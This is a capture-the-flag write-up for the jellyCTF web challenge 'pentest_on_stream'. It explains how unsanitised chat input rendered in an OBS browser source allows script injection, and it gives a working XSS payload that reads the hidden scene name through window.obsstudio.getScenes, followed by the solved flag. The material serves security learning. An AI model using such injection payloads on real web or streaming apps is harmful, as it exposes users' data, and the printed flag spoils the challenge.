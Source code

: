 # [WEB] pentest_on_stream - 000 pts.

Looking at `app/obs_worker.py`, the program visits a webpage locally and takes a screenshot. From `app/server.py`, we see that user input is not sanitized, and with some testing, we see that we can use `<script>` tags.

In `/obs-studio/basic/scenes/scenes.json` we find the following lines:
```
{
    "current_scene": "chat",
    "current_program_scene": "chat",
    "scene_order": [
        {
            "name": "chat"
        },
        {
            "name": "jellyCTF{redacted}"
        }
    ],
...
    "sources": [
        {
            "prev_ver": 503382018,
            "name": "Browser",
            "uuid": "4f234afd-e963-47e3-98b2-d754742c6707",
            "id": "browser_source",
            "versioned_id": "browser_source",
            "settings": {
                "is_local_file": true,
                "local_file": "/app/chat.html",
...
```
The flag is the name of a scene in OBS. We also see that the screenshot is taken with a browser source. We can read [the documentation of obs_browser](https://github.com/obsproject/obs-browser?tab=readme-ov-file#get-scenes) to find the javascript function `window.obsstudio.getScenes`, which returns the scenes. We can use this to get the flag

Payload: 
```
<span id="pbchocolate">placeholder</span><script>window.obsstudio.getScenes(function (scenes) {document.getElementById('pbchocolate').innerHTML = scenes[1]})</script>
```
Flag:
`jellyCTF{y0u_CANT_ju5t_d0_that_dud3}`